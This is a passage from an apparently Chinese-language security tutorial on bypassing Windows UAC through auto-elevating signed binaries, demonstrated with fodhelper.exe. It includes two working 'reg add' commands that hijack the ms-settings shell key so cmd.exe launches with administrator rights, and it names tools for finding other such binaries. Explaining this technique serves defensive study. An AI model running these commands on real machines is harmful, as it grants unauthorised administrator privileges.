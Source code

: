 ## 0x13 ByPass UAC的原理 - 自动提升（autoElevate）

具有autoElevate属性True的应用程序会在启动时自动提升权限，而这些应用程序往往都具备微软的签名，微软认为它是可信的。故此，在该程序启动时，将会以管理员身份启动，假设我们通过COM技术或者DLL劫持该应用程序，也能够获得管理员权限，但是，上述两种技术比较苛刻：

* 1、可能需要高权限才能够完成
* 2、分析成本较高


## 0x14 Bypass UAC演示 - fodhelper.exe

Path：C:\Windows\system32\fodhelper.exe

REG：HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command

![][0x12]

```
reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /d C:\Windows\System32\cmd.exe /f
reg add HKEY_CURRENT_USER\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_DWORD /d 00000000 /f
```

<video src="https://images.payloads.online/4349f414-4f5f-11ec-8821-00d861bf4abb.mp4" controls="controls" width="500px">
哎呀~ 换个浏览器试试吧！
</video>

### ByPass UAC演示 - fodhelper.exe（自动化分析）

* fodhelper.exe
* eventvwr.exe

配置项：

![][0x14]

调用进程：


![][0x15]

利用过程：

![][0x16]

## 0x15 挖掘ByPass UAC的方法

### 寻找自动提升权限的应用程序 – Sigcheck.exe


Strings与Sigcheck，这两款工具目前均由微软官方提供，主要用于查看文件相关信息。

下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/
